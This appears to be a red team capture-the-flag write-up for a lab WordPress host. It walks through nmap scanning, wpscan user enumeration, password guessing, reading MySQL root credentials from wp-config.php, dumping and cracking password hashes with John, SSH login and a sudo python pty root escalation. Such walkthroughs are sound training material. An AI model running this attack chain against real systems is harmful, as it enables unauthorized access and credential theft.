 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

`nmap -Pn -sV -O 192.168.1.110`<br>
![nmap scan](/images/nmapscan.png)<br>
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 - SSH
  - Port 80 - HTTP
  - Port 139 - NetBIOS
  - Port 445 - NetBIOS

The following vulnerabilities were identified on each target:
- Target 1
  1. Wordpress Enumeration
  2. Weak, Short Passwords
  3. Password Hash readable in MySQL (no salt)
  4. Privilege Escalation Misconfiguration (python pty vulnerable)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - command: `wpscan --url http://192.168.1.110/wordpress -u`
      - Wordpress enumeration found usernames `michael` and `steven`
      - Guessing password to both using obvious possible guess found password for user which was `michael`
      - By searching through directories and files, `flag1` was found in `/var/www/html/service.html` <br>
  ![flag1](/images/flag1.PNG) <br>
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Using the same method of searching through the directories and files, `flag2` was found in `/var/www/flag2.txt` <br>
  ![flag2](/images/flag2.PNG) <br>
    - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - One of the important files to search for is the `wp-config.php` file which gives details of how worpress is configured on the server
      - `wp-config.php` was found in `/var/www/html/wordpress` using `cat wp-config.php` show credentials to login to MySQL database: root:R@v3nSecurity
      - Using the command `mysql -u root -p'R@v3nSecurity' -h localhost` we can now login to MySQL
      - Once in MySQL, you can see all databases by using the command `show databases;`, then running the command to select the database in question `use wordpress;`
      - Once in the wordpress database, tables can viewed by using command `show tables;`
      - We see the wp_posts table we can run `select * from wp_posts;` and now have `flag3` <br>
    ![flag3](/images/flag3.PNG) <br>
   - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Using the same database, we can now get view entries in the wp_users table by running `select * from wp_users;`
      - We can see the password hashes for both users, we can save those hashes in a txt file using the format: `user1:$Passwordhash1` and save it as `wp_hashes.txt`
      - The hashes can be cracked using John the ripper with the command `john wp_hashes.txt`, doing sowe now have user steven's password `pink84`
      - SSH can be used to get into the target machine, command: `ssh steven@192.168.1.110` and entering the password when prompted
      - Once logged in we can see what privileges the user has (command: `ls -l`), which tells us that steven can run python scripts
      - One vulnerability we can use is spawning a root terminal with command: `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
      - Success! now we can see `flag4.txt` in the root folder <br>
    ![flag4](/images/flag4.PNG) <br>
